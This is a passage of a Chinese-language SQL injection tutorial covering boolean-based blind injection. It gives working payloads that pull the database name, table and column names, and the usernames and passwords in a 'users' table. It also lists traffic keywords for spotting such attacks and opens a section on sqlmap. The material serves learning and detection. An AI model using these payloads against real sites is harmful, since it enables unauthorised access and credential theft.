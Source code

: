 ##### 数据库名称

```
uname=admin' or ascii(substr(database(),1,1))=115--+
```

##### 表名

```
uname=admin' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
```

##### 字段名

```
uname=admin' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
```

##### 字段值

```
uname=admin' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
```



### **五、基于布尔的盲注的流量分析**

#### 流量关键字

- and
- length
- ascii
- ord
- substr
- mid

## **利用 sqlmap 探测盲注**

### **一、利用** **sqlmap** **探测**get **基于时间盲注**

#### 查看 sqlmap 的帮助信息

```
sqlmap -h 
```

![image-20240803171031277](../../../../repo/assets/19.SQL注入/image-20240803171031277.png)

> B 表示布尔盲注，
>
> T 表示时间盲注(延迟注入），
>
> E 表示报错注入
>
> U 表示联合查询注入，
>
> S 表示堆查询注入
